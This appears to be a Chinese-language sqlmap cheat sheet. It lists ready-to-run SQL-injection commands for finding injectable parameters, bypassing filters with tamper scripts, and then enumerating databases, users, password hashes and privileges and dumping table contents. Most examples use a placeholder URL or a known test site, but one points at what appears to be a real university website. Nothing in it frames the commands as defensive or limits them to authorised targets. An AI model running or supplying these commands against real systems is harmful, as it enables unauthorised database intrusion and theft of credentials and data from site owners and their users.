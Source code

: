 # SqlMap

#### 寻找注入点

**GET方式**

sqlmap -u "url" //这个URL必须含？

**POST方式**

sqlmap -u <http://testasp.vulnweb.com/Login.asp> --data "tfUName=1\&tfUPass=1"

**cookie注入**

sqlmap -u "url" --cookie "chsadj" --level 2 //这里的URL去掉？及其后的内容，并将它们放在cookie的内容里面

**tamper方式**

sqlmap -u "url" -v 3 --batch --tamper "sac.py"  //temper后面的插件可以去sql安装目录查找

**自动检测表**

sqlmap -u <http://testasp.vulnweb.com/Login.asp> --forms

**延时两秒**

Sqlmap –u “url” --delay 2/

**频率3次**

Sqlmap –u “url” --safe-freq 3

**伪静态**

Sqlmap -u <http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html> //在40后面加\*

#### 查看数据库

sqlmap -u "url" --dbs   //查看所有数据库

sqlmap -u "url" --users //查看所有用户

sqlmap -u "url" --current-db //查看当前的数据库

sqlmap -u "url" --current-user //产看当前的用户

sqlmap -u "url" --is-dba //查看是否是最高权限

sqlmap -u "url" --passwords //查看所有密码

sqlmap -u "url" –hostname //查看主机名

sqlmap -u "url" privileges -U username //查看用户权限

sqlmap -u "url" –roles //查看用户角色

**查看详细内容**

sqlmap -u "url" --tables -D "database" //database这个数据库的表数据表

sqlmap -u "url" --columns -T "tables" -D "database" //查看tables这个数据表的字段

sqlmap -u "url" --dump "a,b,c" -C "columns" -T "tables" -D "database" //下载内容，后面的-CTDabc都是对下载的数据库表段的约束如果不加就是下载所有
